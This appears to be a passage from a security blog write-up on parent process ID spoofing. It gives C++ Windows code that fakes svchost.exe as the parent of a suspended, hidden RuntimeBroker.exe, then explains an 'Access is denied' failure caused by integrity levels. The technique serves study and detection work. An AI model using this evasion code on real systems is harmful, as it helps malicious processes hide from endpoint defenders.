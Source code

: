 ```cpp
int main() {
    STARTUPINFOEX si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    SIZE_T attributeSize;

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);

    LPCWSTR parentProcess = L"svchost.exe";
    DWORD parentPID = getPPID(parentProcess);
    printf("[+] Spoofing %ws (PID: %u) as the parent process.\n", parentProcess, parentPID);

    HANDLE procHandle = OpenProcess(PROCESS_ALL_ACCESS, false, parentPID);
    if (!procHandle) {
        wchar_t errorMessage[256];
        FormatMessage(FORMAT_MESSAGE_FROM_SYSTEM, NULL, GetLastError(), MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT), errorMessage, 255, NULL);
        printf("[!] Failed to get a handle with the following error: %ws\n", errorMessage);
        return -1;
    }
    printf("[+] Got a handle of 0x%p\n", procHandle);

    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &procHandle, sizeof(HANDLE), NULL, NULL);

    LPCWSTR spawnProcess = L"C:\\Windows\\System32\\RuntimeBroker.exe";
    CreateProcess(spawnProcess, NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (STARTUPINFO*)&si, &pi);
    printf("[+] Spawning %ws (PID: %u)\n", spawnProcess, pi.dwProcessId);

    return 0;
}
```

However, the code didn't work as expected and we got an "**Access is denied**" error. 
```powershell
PS C:\Users\Meelo\Desktop> .\PickyPPIDSpoofing.exe
[+] Spoofing svchost.exe (PID: 860) as the parent process.
[!] Failed to get a handle with the following error: Access is denied.
```

Based on the output above, the code is trying to spoof `svchost.exe` with a PID of **860**. And if we look at [Process Hacker](https://processhacker.sourceforge.io/), this process has an integrity level of **SYSTEM**. Since we're running as a standard user, with **MEDIUM** integrity level, we don't have access to processes running with **SYSTEM** integrity level.

![Integrity Level of svchost.exe](/static/img/2021-11-22-picky-ppid-spoofing/integrity-level.png)
